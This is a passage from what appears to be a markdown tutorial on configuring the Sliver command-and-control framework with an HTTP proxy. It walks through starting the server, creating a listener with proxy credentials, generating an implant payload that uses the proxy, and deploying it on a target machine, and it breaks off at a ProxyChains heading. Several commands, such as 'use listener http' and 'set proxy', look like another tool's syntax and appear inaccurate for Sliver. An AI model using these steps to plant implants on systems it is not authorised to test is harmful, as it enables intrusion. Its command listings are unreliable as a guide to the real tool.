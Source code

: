 #### 1. Install Sliver

First, ensure you have Sliver installed on your system. You can download and install it from the official [Sliver GitHub repository](https://github.com/BishopFox/sliver).

#### 2. Configure Proxy Settings in Sliver

Sliver allows you to configure HTTP proxy settings directly. Here’s how you can do it:

1. **Start Sliver**:
   ```bash
   sliver-server
   ```

2. **Create a New Listener with Proxy Settings**:
   When creating a new listener, you can specify the proxy settings.

   ```bash
   use listener http
   set proxy http://username:password@proxy_ip:proxy_port
   start listener
   ```

   Replace `username`, `password`, `proxy_ip`, and `proxy_port` with your actual proxy details.

3. **Generate a Payload that Uses the Proxy**:
   Generate a payload that will use the configured HTTP proxy.

   ```bash
   generate --http --proxy http://username:password@proxy_ip:proxy_port
   ```

4. **Deploy the Payload**:
   Deploy the generated payload on the target system.

#### Example: Configuring and Using Sliver with an HTTP Proxy

1. **Start Sliver**:
   ```bash
   sliver-server
   ```

2. **Create a New HTTP Listener with Proxy**:
   ```bash
   sliver > use listener http
   sliver > set proxy http://user:pass@192.168.1.100:8080
   sliver > start listener
   ```

3. **Generate a Payload**:
   ```bash
   sliver > generate --http --proxy http://user:pass@192.168.1.100:8080
   ```

4. **Deploy and Run the Payload** on the target machine.

### Using Sliver with ProxyChains
